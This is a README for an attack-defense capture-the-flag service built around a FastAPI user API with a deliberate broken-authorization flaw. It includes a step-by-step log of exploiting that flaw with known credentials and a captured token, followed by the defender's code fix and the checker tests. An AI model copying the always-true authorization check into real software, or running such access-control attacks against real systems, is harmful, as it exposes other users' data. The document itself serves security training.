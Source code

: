 # Service definition:
We have a Docker container that includes an API built with FastAPI, which has access to a PostgreSQL database containing information about the app's users.  

The attacker has information about the API and must use that information to obtain the flag located in the database and let them in his T-Submission machine. 

# Service implementation:


The Docker container includes a FastAPI instance that provides access to a database containing two rows of user information:

- First tuple contains information about the `admin` user, with a random password and a valid flag stored in the `flag` column.  
- The other tuple contains information about the 'user' account, with a password known to attackers: `pasahitz_sekretua`, but it does not contain a valid flag.  

The database cannot be manipulated. In FastAPI, models, schemas, and routes cannot be modified. However, the code executed by the routes can be manipulated, as long as the core logic (login + fetching user data) remains intact.

If any of the above points are not met, SLA points will be deducted. 
 
-Flags: 
    The flags are stored in the database in the `flag` column of the `admin` user's row.

# About exploting:
- The attacker must obtain the access token using the provided credentials and the corresponding API call: `http://{ip}:8008/api/v1/login`. Afterward, they will use the access token to make a request to the API that retrieves user information: `http://{ip}:8008/api/v1/user/user`. The response indicates that the flag is in the `admin` user, so the attacker will then make another request to `http://{ip}:8008/api/v1/user/admin` and obtain the flag.

- The defender needs to modify the behavior of the API call `http://{ip}:8008/api/v1/user/{username}` so that it is only valid if the `username` matches the user in the token.
  
  Attack performed by Team1 against Team 4. 
  Post call http://10.0.0.104:8008/api/v1/login with {'username': 'user', 'password': 'pasahitz_sekretua'} data.
      We obtein access token. Response: {"access_token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ1c2VyIiwiZXhwIjoxNzM0MzQ3OTgxfQ.zRDWzF6reiVSZ9s8hju9Mif5JP66YYa4bNx8ztv2AkQ","token_type":"bearer"}
  Get call http://10.0.0.104:8008/api/v1/user/user with authorization header
      We obtein the response: 
      {
      "email": "user@tknika.eus",
      "username": "user",
      "id": 2,
      "flag": "No Flag for this user... Maybe for admin;)"
      }
  Get call http://10.0.0.104:8008/api/v1/user/admin with authorization header
      We obtein the response: 
      {
      "email": "admin@tknika.eus",
      "username": "admin",
      "id": 1,
      "flag": "(contains the valid flags)"
      }
  'ssh -i /home/urko/Deskargak/keyak/team2-sshkey root@10.0.1.1'
  nano /root/xxx.flag
    Paste copied flags. 

  Defense performed by Team4
    'ssh root@10.0.0.104'
    docker exec -it besteerabiltzailean /bin/bash
    change the file /app/app/service/user_service.py

    ```
    def check_user_is_current_user(username: str, current_user: user_schema.User):
        return True
    ```
    to
    ```
    def check_user_is_current_user(username: str, current_user: user_schema.User):
      return username == current_user.email or username == current_user.username
    ```
    
     

# Checker checks:
- Ports to reach dockers are open (WEB API:8008)
- APIs logic (login + fetching user data)
- Integrity of all FastAPI files except `/app/app/service/user_service.py`

Checks done: 
- TEAM 1. Stop the container: 'root@debian:~# docker stop besteerabiltzailean_web_1' It works OK, service's status becomes DOWN. 
- TEAM 2. Stop the container: 'root@debian:~# docker stop besteerabiltzailean_db_1' It works OK, service's status becomes FAULTY.
- TEAM 1. Change /app/app/router/user_route.py  file from 'besteerabiltzailean_web_1' docker. It works OK, service's status becomes FAULTY. 
- TEAM 2. Apply fix '/app/app/service/user_service.py' file from 'besteerabiltzailean_web_1' docker. It works OK, service's status doesn't change
- TEAM 1. Make a change that does not affect the logic of the app '/app/app/service/user_service.py' file from 'besteerabiltzailean_web_1' docker. It works OK, service's status doesn't change
 
# License notes
Parts from:
https://github.com/Tknika/ctf-gameserver-services


